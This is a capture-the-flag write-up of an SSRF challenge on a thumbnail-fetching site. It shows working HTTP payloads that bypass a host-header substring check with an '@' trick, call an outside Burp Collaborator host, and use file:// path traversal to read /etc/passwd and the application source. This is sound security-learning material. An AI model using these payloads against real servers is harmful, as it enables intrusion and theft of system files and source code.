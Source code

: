 ## we have a site that get the Thumbnail from internal servers => seems to be ssrf 


**error message if you supplied host header without internalapi.local**
```http
Invalid HOST:-<br />You must choose one of our internal apis internalapi [1:9] only
```
**after check , i found that the only security mechanism that is applied is to check if `internalapi.local` is in the host header**


**i added `@` to make `internalapi.local` as credntials and send request to burp collap and i recived one**
```http
GET /?url=&server=http://internalapi1.local@9z9n3bnobyecs6hahjjcgyx0oruiib60.oastify.com 
```

the response was the same 
![Screenshot_20231007_003149](https://github.com/kiro6/writeups-ctfs/assets/57776872/8b0e82fc-eaaf-4aa6-bdd4-1d621a27872f)

i tried to request the image i found that it is contains the same response from burp collap 
![Screenshot_20231007_003153](https://github.com/kiro6/writeups-ctfs/assets/57776872/b1d64667-fed8-41b0-b38a-8dcc4ea01c36)

**i thought maybe i can the file contents**
```http
GET /?url=&server=file:///internalapi2.local/../../../etc/passwd HTTP/1.1
```
![Screenshot_20231007_002228](https://github.com/kiro6/writeups-ctfs/assets/57776872/00a7cd27-e22b-40d9-8ff7-db5b85fa7d6c)


**boom we did it**
![Screenshot_20231007_002219](https://github.com/kiro6/writeups-ctfs/assets/57776872/96c0aba5-2852-47bb-a714-ce2b5a5c8cdc)


**Notice /var/www  in the /etc/passwd file maybe it is the server path , we can aslo bruteforce other linux systen files that exposure the server path**
```http
GET /?url=&server=file:///internalapi2.local/../../../var/www/html/index.php HTTP/1.1
```
![Screenshot_20231007_002225](https://github.com/kiro6/writeups-ctfs/assets/57776872/9e8ff211-15a7-4edb-98dc-65cbb37722c5)


**boom we did it again we have the source code**
![Screenshot_20231007_002214](https://github.com/kiro6/writeups-ctfs/assets/57776872/5909c3dd-1b54-482f-86fb-b9fe7efc28aa)


**Flage**
```php
$jpeg =  'Server!Host@Flag';
```

